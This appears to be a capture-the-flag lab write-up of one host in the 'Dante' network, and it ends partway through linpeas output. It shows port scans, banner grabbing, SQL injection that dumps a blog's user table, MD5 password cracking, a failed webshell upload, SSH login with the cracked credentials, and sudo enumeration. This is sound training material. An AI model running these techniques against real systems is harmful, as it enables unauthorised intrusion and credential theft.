I will report the TCP result from NMAP:

```
balthazar@DANTE-WEB-NIX01:/tmp$ ./nmap 172.16.1.12
Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-01 02:17 PDT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for 172.16.1.12
Host is up (0.00013s latency).
Not shown: 1177 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
443/tcp  open  https
3306/tcp open  mysql
Nmap done: 1 IP address (1 host up) scanned in 13.05 seconds
```

And will run a UPD scan as well:

```
root@DANTE-WEB-NIX01:/tmp# ./nmap -sU -F 172.16.1.12

Starting Nmap 6.49BETA1 ( http://nmap.org ) at 2023-09-01 06:29 PDT
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Stats: 0:00:05 elapsed; 0 hosts completed (0 up), 1 undergoing ARP Ping Scan
Parallel DNS resolution of 1 host. Timing: About 0.00% done
Stats: 0:00:38 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 28.49% done; ETC: 06:31 (0:01:03 remaining)
Stats: 0:00:42 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 31.85% done; ETC: 06:31 (0:01:02 remaining)
Stats: 0:01:12 elapsed; 0 hosts completed (1 up), 1 undergoing UDP Scan
UDP Scan Timing: About 59.75% done; ETC: 06:31 (0:00:40 remaining)
Nmap scan report for 172.16.1.12
Cannot find nmap-mac-prefixes: Ethernet vendor correlation will not be performed
Host is up (0.0027s latency).
Not shown: 118 closed ports
PORT     STATE         SERVICE
5353/udp open|filtered mdns
MAC Address: 00:50:56:B9:12:B3 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 138.09 seconds
```

Same here no UDP services are relevant for this scan we can move forward with specific exploitations.

* * *

## FTP:

On first check seems like this time the anonymous surf is disabled on this host:

```
┌──(root㉿kali-linux)-[~millycash/Downloads/Dante]
└─# proxychains ftp anonymous@172.16.1.12
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.12:21  ...  OK
Connected to 172.16.1.12.

220 ProFTPD Server (ProFTPD) [::ffff:172.16.1.12]
331 Password required for anonymous
Password: 
530 Login incorrect.
ftp: Login failed
ftp>
```

We can try to footpring the FTP user service:

```
┌──(root㉿kali-linux)-[~millycash/Downloads/Dante]
└─# proxychains nc -vn 172.16.1.12 21
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.12:21  ...  OK
(UNKNOWN) [172.16.1.12] 21 (ftp) open : Operation now in progress
220 ProFTPD Server (ProFTPD) [::ffff:172.16.1.12]
```

Not having a valid set of credentials can make it difficult, I wil come back as soon I find a valid set of credentials. Plus not being able to correctly identify the running version make it difficult to event target the right exploit.

* * *

## SSH:

Same story is for SSH, without a set of credentials we can't do much about and bruteforce is offtopic.

I will try to footprint the service manually:

```
┌──(root㉿kali-linux)-[~millycash/Downloads/Dante]
└─# proxychains nc -vn 172.16.1.12 22     
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] Strict chain  ...  127.0.0.1:9050  ...  172.16.1.12:22  ...  OK
(UNKNOWN) [172.16.1.12] 22 (ssh) open : Operation now in progress
SSH-2.0-OpenSSH_7.6p1 Ubuntu-4ubuntu0.3
^C
```

Nothign much can be done so I will move forward!

* * *

## HTTP/S:

Surfing manually to the page we can find a management portal for XAMPP ver 7.4.7.



Checking the phpinfo we can see that is pointing to DANTE-NIX04:



And seems like phpmyadmin is only accessible locally:



But running a directory search show the presence of a blog?



And a webalizer?



Let continue to the blog:


And before even staring I run a wb directory fuzzing and found these folders on the server:

```
[15:53:15] 301 -  242B  - /blog/blogadmin  ->  http://172.16.1.12/blog/blogadmin/
[15:53:24] 200 -    1KB - /blog/database/
[15:53:27] 200 -   28KB - /blog/index.php/login/
[15:53:28] 301 -  237B  - /blog/libs  ->  http://172.16.1.12/blog/libs/
```

* * *

## Attacking the WEBSITE:

Now I wil start by checking that /database:



Can we download them? Unfortunately not as visitor. Next i want to target those categories, they might be susceptible to SQL injection?


Seems like yeah it is!



And doing so we have a list of the DB on the server:

```
available databases [7]:                                                                                                                                     
[*] blog_admin_db
[*] flag
[*] information_schema
[*] mysql
[*] performance_schema
[*] phpmyadmin
[*] test
```

Can we dump those?  Seems like test it's void, next we have the Flag/flag to obtain another flag:



Next the phpmyadmin seems empty:



And lastly targeting the DB on the page:

```
Database: blog_admin_db                                                                                                                                      
[13 tables]
+-----------------------------+
| banner_posts                |
| blog_categories             |
| blogs                       |
| editors_choice              |
| links                       |
| membership_grouppermissions |
| membership_groups           |
| membership_userpermissions  |
| membership_userrecords      |
| membership_users            |
| page_hits                   |
| titles                      |
| visitor_info                |
+-----------------------------+
```



Lastly we have some credentials with MD5 hashed password that were succesfully cracked:

```
[16:13:29] [INFO] using default dictionary
do you want to use common password suffixes? (slow!) [y/N] N
[16:13:29] [INFO] starting dictionary-based cracking (md5_generic_passwd)
[16:13:29] [INFO] starting 16 processes 
[16:13:29] [INFO] cracked password '1234' for hash '81dc9bdb52d04dc20036dbd8313ed055'                                                                        
[16:13:29] [INFO] cracked password '12345' for hash '827ccb0eea8a706c4c34a16891f84e7b'                                                                       
[16:13:30] [INFO] cracked password 'admin' for hash '21232f297a57a5a743894a0e4a801fc3'                                                                       
Database: blog_admin_db                                                                                                                                      
Table: membership_users
[6 entries]
+---------+----------+----------------+---------+---------+---------+---------+------------------------------------------+----------------------------------------------------------------------------------------------+----------+------------+------------+----------------+-------------------+
| groupID | memberID | email          | custom1 | custom2 | custom3 | custom4 | passMD5                                  | comments                                                                                     | isBanned | isApproved | signupDate | pass_reset_key | pass_reset_expiry |
+---------+----------+----------------+---------+---------+---------+---------+------------------------------------------+----------------------------------------------------------------------------------------------+----------+------------+------------+----------------+-------------------+
| 2       | admin    | <blank>        | NULL    | NULL    | NULL    | NULL    | 21232f297a57a5a743894a0e4a801fc3 (admin) | Admin member created automatically on 2018-04-26\nRecord updated automatically on 2018-04-27 | 0        | 1          | 2018-04-26 | NULL           | NULL              |
| NULL    | ben      | ben@dante.htb  | NULL    | NULL    | NULL    | NULL    | 442179ad1de9c25593cabf625c0badb7         | NULL                                                                                         | NULL     | NULL       | NULL       | NULL           | NULL              |
| 3       | egre55   | egre55@htb.com | egre55  | a       | a       | a       | d6501933a2e0ea1f497b87473051417f         | member signed up through the registration form.                                              | 0        | 1          | 2020-08-05 | NULL           | NULL              |
| 3       | freak    | sadf@gmail.com | adsf    | fsad    | fads    | 12345   | 827ccb0eea8a706c4c34a16891f84e7b (12345) | member signed up through the registration form.                                              | 0        | 1          | 2023-09-01 | NULL           | NULL              |
| 1       | guest    | NULL           | NULL    | NULL    | NULL    | NULL    | NULL                                     | Anonymous member created automatically on 2018-04-26                                         | 0        | 1          | 2018-04-26 | NULL           | NULL              |
| 3       | hello    | asf@fma.com    | sdaf    | sadf    | sdf     | 23324   | 81dc9bdb52d04dc20036dbd8313ed055 (1234)  | member signed up through the registration form.                                              | 0        | 1          | 2023-09-01 | NULL           | NULL              |
+---------+----------+----------------+---------+---------+---------+---------+------------------------------------------+----------------------------------------------------------------------------------------------+----------+------------+------------+----------------+-------------------+
```

* * *

## MYSQL:

At this point it is useless to check the MYSQL since we have already dumped the DB content.

* * *

## Exploitation:

Testing the admin credentials we cracked from the weak MD5 Hash we can login:

    

Now we have to find a way where we can inject a revshell into the system. I will try to add a new blog and upload a php webshell. So my idea came in to use a php webshell wrapped in a html code like this: https://github.com/artyuum/simple-php-web-shell/blob/master/index.php

In one of the published atricles:



And now surfing to it as guest user should let us execute some commands?


But it's not working so I went back on enumeration and apparently I missed:

```
Table: membership_users
[6 entries]
+---------+----------+----------------+---------+---------+---------+---------+----------------------------------+----------------------------------------------------------------------------------------------+----------+------------+------------+----------------+-------------------+
| groupID | memberID | email          | custom1 | custom2 | custom3 | custom4 | passMD5                          | comments                                                                                     | isBanned | isApproved | signupDate | pass_reset_key | pass_reset_expiry |
+---------+----------+----------------+---------+---------+---------+---------+----------------------------------+----------------------------------------------------------------------------------------------+----------+------------+------------+----------------+-------------------+
| 2       | admin    | <blank>        | NULL    | NULL    | NULL    | NULL    | 21232f297a57a5a743894a0e4a801fc3 | Admin member created automatically on 2018-04-26\nRecord updated automatically on 2018-04-27 | 0        | 1          | 2018-04-26 | NULL           | NULL              |
| NULL    | ben      | ben@dante.htb  | NULL    | NULL    | NULL    | NULL    | 442179ad1de9c25593cabf625c0badb7 | NULL                                                                                         | NULL     | NULL       | NULL       | NULL           | NULL              |
| 3       | egre55   | egre55@htb.com | egre55  | a       | a       | a       | d6501933a2e0ea1f497b87473051417f | member signed up through the registration form.                                              | 0        | 1          | 2020-08-05 | NULL           | NULL              |
| 3       | freak    | sadf@gmail.com | adsf    | fsad    | fads    | 12345   | 827ccb0eea8a706c4c34a16891f84e7b | member signed up through the registration form.                                              | 0        | 1          | 2023-09-01 | NULL           | NULL              |
| 1       | guest    | NULL           | NULL    | NULL    | NULL    | NULL    | NULL                             | Anonymous member created automatically on 2018-04-26                                         | 0        | 1          | 2018-04-26 | NULL           | NULL              |
| 3       | hello    | asf@fma.com    | sdaf    | sadf    | sdf     | 23324   | 81dc9bdb52d04dc20036dbd8313ed055 | member signed up through the registration form.                                              | 0        | 1          | 2023-09-01 | NULL           | NULL              |
+---------+----------+----------------+---------+---------+---------+---------+----------------------------------+--------------------------------------------
```

It's a bit wrongly impaginated but there we could find another user which was the BEN one!

```
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

442179ad1de9c25593cabf625c0badb7:Welcometomyblog          
                                                          
Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 0 (MD5)
Hash.Target......: 442179ad1de9c25593cabf625c0badb7
Time.Started.....: Fri Sep  1 16:54:44 2023 (1 sec)
Time.Estimated...: Fri Sep  1 16:54:45 2023 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 13427.9 kH/s (0.19ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 10502144/14344385 (73.21%)
Rejected.........: 0/10502144 (0.00%)
Restore.Point....: 10485760/14344385 (73.10%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: XiaoNianNian -> WEREVERYOUnataly
Hardware.Mon.#1..: Temp: 81c Util:  7%

Started: Fri Sep  1 16:54:26 2023
Stopped: Fri Sep  1 16:54:45 2023
```

Lastly we can use those credentials to get to SSH and login:



And get another flag:



And lastly checkign sudo ben can run all commands but not as root:

```
ben@DANTE-NIX04:/$ sudo -l
Password: 
Matching Defaults entries for ben on DANTE-NIX04:
    env_keep+="LANG LANGUAGE LINGUAS LC_* _XKB_CHARSET", env_keep+="XAPPLRESDIR XFILESEARCHPATH XUSERFILESEARCHPATH",
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, mail_badpass

User ben may run the following commands on DANTE-NIX04:
    (ALL, !root) /bin/bash
```

I will upload linpeas and check for interesting attack vectors:

```
═══════════════════════════════╣ Basic information ╠═══════════════════════════════
                               ╚═══════════════════╝
OS: Linux version 5.4.0-48-generic (buildd@lcy01-amd64-023) (gcc version 7.5.0 (Ubuntu 7.5.0-3ubuntu1~18.04)) #52~18.04.1-Ubuntu SMP Thu Sep 10 12:50:22 UTC 2020
User & Groups: uid=1000(ben) gid=1000(ben) groups=1000(ben),46(plugdev)
Hostname: DANTE-NIX04
Writable folder: /dev/shm
[+] /bin/ping is available for network discovery (linpeas can discover hosts, learn more with -h)
[+] /bin/bash is available for network discovery, port scanning and port forwarding (linpeas can discover hosts, scan ports, and forward ports. Learn more with -h)
[+] /bin/nc is available for network discovery & port scanning (linpeas can discover hosts and scan ports, learn more with -h)


╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version
Sudo version 1.8.27


══════════════════════════════╣ Network Information ╠══════════════════════════════
                              ╚═════════════════════╝
╔══════════╣ Hostname, hosts and DNS
DANTE-NIX04
127.0.0.1	localhost DANTE-NIX04
127.0.1.1	ubuntu

::1     ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters

nameserver 127.0.0.53
options edns0

╔══════════╣ Interfaces
# symbolic names for networks, see networks(5) for more information
link-local 169.254.0.0
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens160: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc mq state UP group default qlen 1000
    link/ether 00:50:56:b9:12:b3 brd ff:ff:ff:ff:ff:ff
    inet 172.16.1.12/24 brd 172.16.1.255 scope global ens160
       valid_lft forever preferred_lft forever
    inet6 fe80::250:56ff:feb9:12b3/64 scope link 
       valid_lft forever preferred_lft forever


╔══════════╣ Checking 'sudo -l', /etc/sudoers, and /etc/sudoers.d
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-and-suid
Matching Defaults entries for ben on DANTE-NIX04:
